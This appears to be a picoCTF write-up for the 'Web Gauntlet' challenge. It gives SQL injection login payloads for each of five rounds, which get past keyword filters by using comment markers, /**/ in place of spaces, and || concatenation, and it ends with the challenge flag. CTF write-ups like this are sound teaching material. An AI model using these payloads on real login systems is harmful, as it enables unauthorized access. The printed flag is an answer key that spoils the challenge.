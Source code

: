 # Web Gauntlet ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
Can you beat the filters? Log in as admin<br>
http://jupiter.challenges.picoctf.org:54319/ <br>
http://jupiter.challenges.picoctf.org:54319/filter.php


## Write-up: 📝
We have to get through all 5 SQLi challenges. One link gives the form , display query after wrong credential submission or nothing if the query statement contains filtered words.
The other links show the filtered words.
## Solution: 💯
### Round 1:

Filter: `or`

Login as admin so the username=admin, and sqli here.

User: `admin' --`

Pass: `123456` (arbitary string)

### Round 2:

Filter: `or and like = --`

Login as admin. Change comment out operator "--" to "/*"

User: `admin' /*`

Password: `123456` (arbitary string)

### Round 3:

Filter: `or and = like > < --`

Beware of this round also filter **spaces** so we use the payload above and replace **spaces** with `/**/`

User: `admin'/**//*`

Password: `123456` (arbitary string)

### Round 4:

Filter: `or and = like > < -- admin`

They filter the string **"admin"** if we input directly. So we need a **concatenation operator** and here we use `||`

User: `ad'||'min'/**//*`

Pass: `123456` (arbitary string)

### Round 5:

Filter: `or and = like > < -- union admin`

With **union** filtered, our payload above is not affected.

User: ad'||'min'/**//*

Pass: `123456` (arbitary string)

When you done reaching to 6/5 round. Back to **filter** file and the flag is there !

#### The Flag (for reference): ✔️
```
picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
```

